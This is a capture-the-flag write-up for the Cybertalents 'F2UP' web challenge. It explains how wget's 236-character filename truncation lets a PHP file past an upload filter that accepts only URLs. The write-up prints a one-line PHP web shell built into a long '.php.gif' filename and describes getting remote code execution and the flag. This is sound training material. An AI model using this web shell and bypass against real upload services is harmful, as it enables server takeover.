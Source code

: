 ```yaml
---
title: Cybertalents F2UP Web Challenge Writeup
author: Muhammad Adel
date: 2021-06-26 18:05:00 +0200
categories: [Cybertalents Writeups]
tags: [cybertalents, ctf, web]
---
```


## **Description**

this is the most secure way to file upload is it ?


**Difficulty**: Medium

**Challenge Link:** [https://cybertalents.com/challenges/web/f2up](https://cybertalents.com/challenges/web/f2up)

## **Solution**

### **Exploring**

When open the challenge you will find a web page that looks like this:

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUj4WW8l-Nd6y7w_Ye%2F1.png?alt=media&token=94b89bd2-deba-4bcf-86be-db97c20f3aa7)

I tried to upload a php file but it says:

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUjnlZUlNs5yMCsMXe%2F2.png?alt=media&token=15f80e1a-6d55-4e5f-866a-9702d500f8f9)

Also, I uploaded a normal image to see where the path of the file uploaded is and it was in:

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUjy5blQRxTtQmf2oN%2F3.png?alt=media&token=4035df8a-3488-4593-9e99-4f030b559b9a)

It seems that the website is fetching the image by its URL. So I thought it maybe an SSRF and if added my web hooker link I could receive the flag but it didn't work. there a hint in the page that says it using wget.php:

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUjZn44khMdCWLuGk1%2F4.png?alt=media&token=44ba423a-ed07-4d02-95b5-3a3d99e659b8)

I searched about some unrestricted file upload bypass techniques and I stumbled upon this one:

[https://book.hacktricks.xyz/pentesting-web/file-upload#wget-file-upload-ssrf-trick](https://book.hacktricks.xyz/pentesting-web/file-upload#wget-file-upload-ssrf-trick)


### **Exploitation**

this great resource said that if you downloaded a file using wget which its name has more than 236 character the tool will truncate the rest of the string and save your file only with the first 236 character. Cool!

Let's build our file:


```bash
root@kali:~/CyberTalents/F2UP>  echo  '<?php echo system($_GET["cmd"]); ?>'  >  $(python -c 'print("A"*(236-4)+".php"+".gif")')
root@kali:~/CyberTalents/F2UP>  ls
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
```

I have added a web based shell to execute command on the server. The problem here is how we our going to upload this file to the server because it only accept a URL form.

I tried to make python server in my local machine but it didn't work. So I uploaded this file to github to be able to use in the exploit and get an RCE. Also, to make it easier for everyone who is going to use this file to solve the challenge.

[https://github.com/ItsFadinG/wget-File-Upload-Exploit](https://github.com/ItsFadinG/wget-File-Upload-Exploit)

Now, we will upload the file to the challenge server:

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUmj0D7rIFtlv-K6N1%2F5.png?alt=media&token=398fb14e-2b3b-4fa5-b36a-dd4fdfeaeba5)

It has been downloaded successfully! Let's get the Flag:

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUmsY3dkJB5KIElbV1%2F6.png?alt=media&token=880d8bd2-a306-45ae-9419-ecba7a98c24f)

![](https://gblobscdn.gitbook.com/assets%2F-Mc-dhcC8XUrwR1pTDRF%2F-McUULK9vPGZxjCFDZil%2F-McUmv2miVeG8P_jvASV%2F7.png?alt=media&token=f5720c43-bdc5-4ebf-8816-317658afa347)